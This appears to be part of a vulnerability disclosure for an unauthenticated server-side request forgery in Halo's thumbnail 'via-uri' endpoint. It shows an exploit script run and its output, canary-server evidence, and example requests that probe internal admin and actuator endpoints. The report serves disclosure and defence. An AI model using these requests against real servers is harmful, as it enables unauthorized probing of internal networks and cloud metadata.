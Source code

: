 ```bash
$ python3 exploit.py http://localhost:8090 --target http://internal-server:8080/admin

🎯 Anonymous SSRF: GET /apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://internal-server:8080/admin&size=L

📊 Response: 302 Found
📄 Response indicates: Accessible (internal server responded!)

🚨 SSRF VULNERABILITY CONFIRMED!
✅ Anonymous user made HTTP GET request to internal target
✅ ThumbnailEndpoint isAccessible() method exploited without authentication
🔥 Impact: Internal network access, cloud metadata exposure  
🔑 Auth required: NONE - Anonymous access!

VULNERABILITY STATUS: CONFIRMED EXPLOITABLE
CWE-918: Server-Side Request Forgery  
CVSS: 9.1 Critical
Root cause: No URL validation in isAccessible() method + Public access
```

### Technical Evidence

**Canary Server Hit:**
```
🎯 CANARY HIT: GET /thumbnail-ssrf-test
   From: 127.0.0.1:42156
   Headers: {'user-agent': 'ReactorNetty/1.2.8', 'range': 'bytes=0-0', 'host': 'host.docker.internal:45623'}
   
📊 HTTP Response: 302 Found (redirect to thumbnail)
📄 Server Response: Redirect indicates successful internal request
```

**Key Observations:**
- **HTTP Method:** GET request with Range header (consistent with `isAccessible()` implementation)
- **Range Header:** `bytes=0-0` for minimal data retrieval 
- **User Agent:** `ReactorNetty/1.2.8` (confirms Spring WebFlux WebClient usage)  
- **Source IP:** `127.0.0.1` (proves request originates from Halo server)
- **Response Handling:** 302 redirect when URL accessible, 404 when not, enabling SSRF

---

## 🔥 Impact Analysis

### Attack Scenarios

**1. Internal Service Discovery**
```bash
# Probe internal admin interfaces
GET /apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://127.0.0.1:8080/admin

# Test internal API endpoints  
GET /apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://127.0.0.1:8090/actuator/health
```
